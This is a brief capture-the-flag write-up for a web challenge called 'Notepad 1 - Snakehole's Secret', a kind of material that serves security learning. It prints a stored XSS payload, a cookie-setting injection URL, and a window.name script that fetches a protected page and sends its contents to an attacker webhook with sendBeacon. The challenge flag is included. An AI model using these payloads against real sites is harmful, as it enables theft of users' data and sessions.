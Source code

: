 # Notepad 1 - Snakehole's Secret

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  


### Challenge File
[Source](./Handout/snakeholesecret.tar.gz)

### MD5 Hash: 
`fc10f1d03e258b1e697a826541e5b2a1`


### Short Writeup

* Payload in user's note
    * `<img src/onerror="eval(window.name)">`

* Send a page to admin that does the following
    * Set-Cookie with your id.
        * `http://chall.notepad1.gq/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get`
    * Open the page again with the following window.name . Now that your XSS payload gets loaded, remove your cookie and fetch flag.
        * `window.open("http://chall.notepad1.gq",name="document.cookie='id=f616c83f2f0f188265c7004d81d45723; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));")`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{youll_never_take_me_alive_ialmvwoawpwe}`